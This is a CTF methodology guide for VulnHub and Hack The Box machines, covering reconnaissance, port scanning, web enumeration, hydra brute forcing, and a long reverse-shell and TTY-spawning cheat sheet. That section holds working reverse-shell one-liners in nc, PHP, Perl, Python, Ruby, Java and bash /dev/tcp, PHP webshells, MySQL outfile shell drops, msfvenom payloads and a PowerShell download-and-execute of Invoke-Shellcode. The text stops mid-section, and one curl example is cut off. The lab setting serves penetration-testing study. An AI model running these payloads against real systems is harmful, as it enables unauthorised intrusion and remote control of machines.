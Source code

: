 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub, Hack the Box and others. Once you download the virtual machine from the website and run it in VMware or Virtual Box, below steps could be followed to find the vulnerabilities.

We would like to **thank g0tm1lk** for maintaining Vulnhub and moderators of Hack The Box. Also, **shout-out** to each and every **author of the Vulnerable Machine/ write-ups** submitted. Thank you for providing awesome challenges to learn from and sharing your knowledge to the community!. **Thank You!!**

In solving any vulnerable machine, there are few stages:

* :ref:`finding-the-ip-address`
* :ref:`port-scanning`
* :ref:`rabbit-holes`
* :ref:`from-nothing-to-unprivileged-shell`
* :ref:`unprivileged-shell-to-privileged-shell`

In this blog, we have mentioned, what can be done in each stages. Have also provided :ref:`tips-and-tricks` for solving the VMs. Vulnerability Analysis Blog in Infrastructure Pentest Series could also be referred for exploitation of any particular services (As, it provides information such as "If you have found service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited". There are also appendix related to :ref:`A1-Local-file-Inclusion` and :ref:`A2-File-Upload`

.. _finding-the-ip-address:

Finding the IP address
======================

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets. 
  -r range : Scan a given range instead of auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface name for Virtualization Software

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

  Example: nmap -sP/-sn 192.168.1.0/24

.. _port-scanning:

Port Scanning
=============
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

netcat 
------
Netcat might not be the best tool to use for port scanning, but can be used quickly. netcat scans TCP ports by default, but we can perform UDP scans as well.

For a TCP scan, the format is

::

  nc -vvn -z xxx.xxx.xxx.xxx startport-endport
     -z flag is Zero-I/O mode (used for scanning)
     -vv will provide verbose information about the results
     -n flag allows to skip the DNS lookup

For a UDP Port Scan, we need to add -u flag which makes the format

::

  nc -vvn -u -z xxx.xxx.xxx.xxx startport-endport


If we have windows machine without nmap, we can use `PSnmap <https://www.powershellgallery.com/packages/PSnmap/>`_


Amap - Application mapper
-------------------------

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16

.. _rabbit-holes:

Rabbit Holes?
=============

There would be instances where you are not able to find anything such as any open port or any entry point. The below may provide some clue.

.. _listen-to-the-interface:

Listen to the interface
------------------------

We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive a something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh

DNS Server
----------

If the targeted machine is running a DNS Server and we have possible domain name, we may try to figure out A, MX, AAAA records or try zone-transfer to figure out other possible domain names.

::

 host <domain> <optional_name_server>
 host -t ns <domain>           -- Name Servers
 host -t a <domain>            -- Address
 host -t aaaa <domain>         -- AAAA record points a domain or subdomain to an IPv6 address
 host -t mx <domain>           -- Mail Servers
 host -t soa <domain>          -- Start of Authority
 host <IP>                     -- Reverse Lookup
 host -l <Domain Name> <DNS Server> -- Domain Zone Transfer

SSL Certificate
---------------

If the targetted machine is running https server and we are getting a apache default webpage on hitting the https://IPAddress, probably, check the alt-dns-name on the ssl-certificate, create a entry in /etc/hosts and browse with the https://alt-dns-name.

::

 | ssl-cert: Subject: commonName=examplecorp.com/organizationName=ExampleCorp Ltd./stateOrProvinceName=Attica/countryName=IN/localityName=Mumbai/organizationalUnitName=IT/emailAddress=admin@examplecorp.com
 | Subject Alternative Name: DNS:www.examplecorp.com, DNS:admin-portal.examplecorp.com


.. _from-nothing-to-unprivileged-shell:

From Nothing to a Unprivileged Shell
====================================

At this point, you would have an idea about the different services and service version running on the system. (aka figure out what webservices such as cms or software's are running on the vulnerable machine)

searchsploit
------------
Exploit Database Archive Search

First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Once we have figured out which exploit to check we can read about it by using the file-number. For example: 1997, 2017, 24574 in the above case.

::

 searchsploit -x 24674


Searchsploit even provide an option to read the nmap XML file and suggest vulnerabilities ( Need nmap -sV -x xmlfile ).

::
  
  searchsploit
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


.. Tip :: If we don't get a exact exploit for a version, it is also recommended to read the exploits which are highlighted as they may be valid for lower versions too. For example Let's say we are searching for exploits in Example_Software version 2.1.3. However, version 2.2.2 contains multiple vulnerablities. Reading the description for 2.2.2 we find out it's valid for lower versions too.

SecLists.Org Security Mailing List Archive
------------------------------------------

There would be some days, when you won't find vulnerability in searchsploit. We should also check the `seclists.org security mailing list google search <http://seclists.org/>`_, if someone has reported any bug for that particular software. 

Google-Vulns
------------

It is suggested that whenever you are googling something,  also try with the words such as ctf, github, python, tool etc. For example. Let's say, you are stuck in a docker or in a specific cms. Search for docker ctf or <cms_name> ctf/ github etc.

Webservices
-----------

If a webserver is running on the machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scan web server for known vulnerabilities. It would examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

BurpSuite Spider
^^^^^^^^^^^^^^^^

There would be some cases where dirb/ dirbuster won't find anything. Happened with me on a Node.js web application. Burpsuite spider helped in finding extra-pages which contained the credentials.

dirb, wfuzz, dirbuster
^^^^^^^^^^^^^^^^^^^^^^

Further, we can execute to find any hidden directories.

* `DIRB <https://tools.kali.org/web-applications/dirb>`_ is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
* `wfuzz <https://tools.kali.org/web-applications/wfuzz>`_ - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing a image. Most of the time, now we need to figure out which image is different. Here, we would figure out what's the size of the normal image and hide that particular response with wfuzz.
* `Dirbuster <https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project>`_ : DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. 

.. Tip :: If the using the dirb/wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories.

.. Tip :: Probably, we would be using common.txt in /usr/share/wordlists/dirb/ . If it's doesn't find anything, it's better to double check with /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt which is list of directories that where found on at least 2 different hosts when DirBuster project crawled the internet. Even if that doesn't work out, try searching with extensions .txt, .js, .html, .php. (.txt by default and rest application based)


PUT Method
^^^^^^^^^^

Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

Curl command can be used to check the options available:

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

The few are

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '

Wordpress
^^^^^^^^^

When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
    	If no option is supplied, the default is "vt,tt,u,vp"

Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

.. Tip :: If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

Names? Possible Usernames? Possible Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/ https webserver), you would find possible  names of the employees working in the company. Now, it is common practice to have username based on your first/ last name. Superkojiman has written a script `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

Hydra can be used to brute force login web pages

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

**Help for module http-post-form**

Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

::

  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

* First is the page on the server to GET or POST to (URL).
* Second is the POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
* Third is the string that it checks for an *invalid* login (by default) Invalid condition login check can be preceded by "F=", successful condition login check must be preceded by "S=". This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
* The following parameters are optional:
  C=/page/uri     to define a different page to gather initial cookies from
  (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request	^USER^ and ^PASS^ can also be put into these headers!

 * Note: 

  * 'h' will add the user-defined header at the end	regardless it's already being sent by Hydra or not.
  * 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

 * Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that are not option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

:: 

 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"


Reverse Shells
--------------

Possibly, we would have figured out some vulnerablity in the services running or misconfiguration and can have a reverse shell using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. Mostly taken from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and some more.

netcat (nc)
^^^^^^^^^^^

* with the -e option

::

  nc -e /bin/sh 10.0.0.1 1234

* without -e option

::

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

PHP
^^^

* **PHP Shell**

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".

 If you also want to provide upload functionality (Imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file

 ::

  <?php 
   if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
   };
   if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
  ?>

  
* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

* **PHP Reverse Shell**

 PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected by listening at port 1337 by using nc

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it wasn't as useful as php meterpreter or reverse shell.


Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: bash 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

TCP

::  

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

UDP

::

 import os,pty,socket;s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(("10.10.14.17", 4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE",'/dev/null');pty.spawn("/bin/sh");s.close()

Java
^^^^

.. code-block :: bash 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: bash 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server is listening on a port:

::

  nc -lvp port

then we can use the below to connect

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1


XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can use

 :: 
	
   select load_file('/etc/passwd');

Reverse Shell from Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^

If there's a way, we can execute code from windows, we may try

* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode 

 ::

  Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"

* Upload ncat and execute 

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ has provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

